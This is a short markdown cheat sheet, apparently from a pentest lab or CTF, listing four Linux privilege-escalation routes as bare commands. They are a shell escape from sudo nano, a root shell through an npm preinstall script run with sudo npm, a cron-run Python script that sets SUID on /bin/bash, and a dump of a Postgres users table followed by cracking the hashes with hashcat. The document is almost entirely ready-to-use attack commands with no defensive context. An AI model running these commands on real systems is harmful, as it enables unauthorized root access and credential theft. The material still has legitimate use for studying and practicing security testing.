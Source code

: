 ## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
reset; sh 1>&0 2>&0
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```
